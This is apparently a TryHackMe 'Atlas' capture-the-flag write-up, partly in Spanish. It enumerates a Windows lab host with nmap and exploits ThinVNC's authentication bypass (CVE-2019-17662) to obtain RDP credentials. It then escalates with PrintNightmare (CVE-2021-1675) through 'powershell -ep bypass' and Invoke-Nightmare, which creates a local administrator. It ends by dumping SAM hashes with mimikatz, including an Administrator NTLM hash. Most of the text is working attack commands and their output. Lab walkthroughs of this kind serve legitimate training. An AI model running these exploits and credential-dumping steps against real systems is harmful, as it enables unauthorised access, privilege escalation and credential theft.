

atlas¶

Enumeration¶
Nmap¶
nmap -p- --open -sS --min-rate 5000 -n -Pn -oN allPorts.txt -oG ports 10.201.53.80
PORT STATE SERVICE
3389/tcp open ms-wbt-server
7680/tcp open pando-pub
8080/tcp open http-proxy
nmap -sC -sV -p3389,7680,8080 -Pn 10.201.53.80 -oN target.txt
PORT STATE SERVICE VERSION
3389/tcp open ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-11-05T08:11:32+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=GAIA
| Not valid before: 2025-11-04T08:03:55
|_Not valid after: 2026-05-06T08:03:55
7680/tcp filtered pando-pub
8080/tcp open http-proxy
| http-auth:
| HTTP/1.1 401 Access Denied\x0D
|_ Digest qop=auth nonce=oxcX68px5kCI4zgCynHmQA== realm=ThinVNC opaque=RdFwI8RWkZUZNoA7dQl8yj80O3fDRyVFVg
|_http-title: 401 Access Denied
| fingerprint-strings:
| FourOhFourRequest:
| HTTP/1.1 404 Not Found
| Content-Type: text/html
| Content-Length: 177
| Connection: Keep-Alive
| <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
| GetRequest:
| HTTP/1.1 401 Access Denied
| Content-Type: text/html
| Content-Length: 144
| Connection: Keep-Alive
| WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="ZsSj4Mpx5kCI1zgCynHmQA==", opaque="cp5TYmnrjexhTJeoocMfNeiKJx8RtVDQbr"
|_ <HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires authorization.<P></BODY></HTML>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.95%I=7%D=11/5%Time=690B063E%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,179,"HTTP/1\.1\x20401\x20Access\x20Denied\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20144\r\nConnection:\x20Keep-Alive\r\nWWW
SF:-Authenticate:\x20Digest\x20realm=\"ThinVNC\",\x20qop=\"auth\",\x20nonc
SF:e=\"ZsSj4Mpx5kCI1zgCynHmQA==\",\x20opaque=\"cp5TYmnrjexhTJeoocMfNeiKJx8
SF:RtVDQbr\"\r\n\r\n<HTML><HEAD><TITLE>401\x20Access\x20Denied</TITLE></HE
SF:AD><BODY><H1>401\x20Access\x20Denied</H1>The\x20requested\x20URL\x20\x2
SF:0requires\x20authorization\.<P></BODY></HTML>\r\n")%r(FourOhFourRequest
SF:,111,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Type:\x20text/html\r\
SF:nContent-Length:\x20177\r\nConnection:\x20Keep-Alive\r\n\r\n<HTML><HEAD
SF:><TITLE>404\x20Not\x20Found</TITLE></HEAD><BODY><H1>404\x20Not\x20Found
SF:</H1>The\x20requested\x20URL\x20nice%20ports%2C/Tri%6Eity\.txt%2ebak\x2
SF:0was\x20not\x20found\x20on\x20this\x20server\.<P></BODY></HTML>\r\n");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: -1s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.93 seconds
HTTP (80, 8080)¶
whatweb http://10.201.53.80:8080
http://10.201.53.80:8080 [401 Unauthorized] Country[RESERVED][ZZ], IP[10.201.53.80], Title[401 Access Denied], WWW-Authenticate[ThinVNC][Digest]
curl 10.201.53.80:8080 -v
* Trying 10.201.53.80:8080...
* Connected to 10.201.53.80 (10.201.53.80) port 8080
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.201.53.80:8080
> User-Agent: curl/8.15.0
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 401 Access Denied
< Content-Type: text/html
< Content-Length: 144
< Connection: Keep-Alive
< WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="euTo98px5kDI4zgCynHmQA==", opaque="fGy8UHZ0o8gextFhHmJ35gJGF2fCCsZw8r"
<
<HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires authorization.<P></BODY></HTML>
* Connection #0 to host 10.201.53.80 left intact

searchsploit thinvnc
---------------------------------------------- ---------------------------------
Exploit Title | Path
---------------------------------------------- ---------------------------------
ThinVNC 1.0b1 - Authentication Bypass | windows/remote/47519.py
---------------------------------------------- ---------------------------------
Shellcodes: No Results
Privesc¶
Descargamos el exploit https://github.com/MuirlandOracle/CVE-2019-17662
./CVE-2019-17662.py 10.201.53.80 8080
/home/rdrgox/Documents/TryHackMe/atlas/exploits/CVE-2019-17662/./CVE-2019-17662.py:73: SyntaxWarning: invalid escape sequence '\ '
else:
/home/rdrgox/Documents/TryHackMe/atlas/exploits/CVE-2019-17662/./CVE-2019-17662.py:89: SyntaxWarning: invalid escape sequence '\/'
self.args.host = re.sub("https?://|\/$", "", self.args.host)
_____ _ _ __ ___ _ ____
|_ _| |__ (_)_ _\ \ / / \ | |/ ___|
| | | '_ \| | '_ \ \ / /| \| | |
| | | | | | | | | \ V / | |\ | |___
|_| |_| |_|_|_| |_|\_/ |_| \_|\____|
@MuirlandOracle
[+] Credentials Found!
Username: Atlas
Password: H0ldUpTheHe@vens
Elevar privilegios, PrintSpooler es conocido por sus vulnerabilidades de escalada de privilegios. Se ejecuta con los permisos máximos disponibles (bajo la cuenta NT AUTHORITY\SYSTEM) y es un objetivo frecuente en la investigación de vulnerabilidades. Se han encontrado numerosas vulnerabilidades en este servicio en el pasado; sin embargo, una de las más recientes se conoce como "PrintNightmare".
Descargamos exploit
git clone https://github.com/calebstewart/CVE-2021-1675.git
Conexión con xfreerdp, y compatimos el recurso.
# compartimos carpeta /tmp
xfreerdp /u:Atlas /p:'H0ldUpTheHe@vens' /v:10.201.53.80 /cert-ignore /dynamic-resolution +clipboard /drive:share,/tmp
# compartimos otra carpeta
xfreerdp /u:Atlas /p:'H0ldUpTheHe@vens' /v:10.201.53.80 /cert-ignore /dynamic-resolution +clipboard /drive:share,/home/rdrgox/Documents/TryHackMe/atlas/


powershell -ep bypass
. .\CVE-2021-1675.ps1
Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll

Usamos un pequeño truco con un comando de PowerShell para iniciar una nueva ventana de comandos segura que se ejecute como administrador.
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n

Otra manera de lanzar la cmd como adnmin
powershell -ep bypass
. .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser "rdrgox" -NewPassword "P@ssw0rd" -DriverName "PrintMe"
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
runas /user:rdrgox powershell.exe
Enter the password for rdrgox: P@ssw0rd
Post-explotation¶
Nos volvemos a conectar con RDP e iniciamos cmd como administrador
xfreerdp /u:adm1n /p:'P@ssw0rd' /v:10.201.53.80 /cert-ignore /dynamic-resolution +clipboard /drive:share,/home/rdrgox/Documents/TryHackMe/atlas/
Aveces en mimikatz obtenemos el siguiente error. esto ocurre porqque el usuario de windows no tiene los privilegios ERROR_kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061_: The required privilege is not held by the client (mostly you’re not an administrator).
.\mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
mimikatz # token::elevate
Token Id : 0
User name :
SID name : NT AUTHORITY\SYSTEM
mimikatz # lsadump::sam
Domain : GAIA
SysKey : 36c8d26ec0df8b23ce63bcefa6e2d821
Local SID : S-1-5-21-1966530601-3185510712-10604624
SAMKey : 6e708461100b4988991ce3b4d8b1784e
RID : 000001f4 (500)
User : Administrator
Hash NTLM: c16444961f67af7eea7e420b65c8c3eb